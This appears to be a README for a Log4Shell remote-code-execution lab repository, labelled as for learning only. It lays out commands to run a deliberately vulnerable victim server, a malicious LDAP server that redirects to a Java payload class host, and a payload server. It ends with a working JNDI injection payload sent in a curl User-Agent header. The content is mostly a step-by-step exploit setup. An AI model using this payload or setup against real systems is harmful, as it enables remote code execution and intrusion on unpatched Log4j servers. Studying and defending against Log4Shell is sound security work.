 # log4Shell
log4Shell vulnerability RCE sample

---
**NOTE**

This repo is only for learning purposes

---


## Run victim web server (app)
```
gradlew build
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build\libs\app-0.0.1.jar
```

## Run attacker malicious ldap server (ldap)
```
gradlew build
java -jar build\libs\ldap-1.0.0.jar http://localhost:8081/#Payload 636
```

## Run attacker java class payload server
```
gradlew build
java -jar build\libs\payload-1.0.0.jar
```

## Run attacker rce server (rce)
```
gradlew build

```

## Do the attacker
```
curl http://localhost:8080/ -H 'User-Agent:${jndi:ldap://0.0.0.0:636/a}'
```

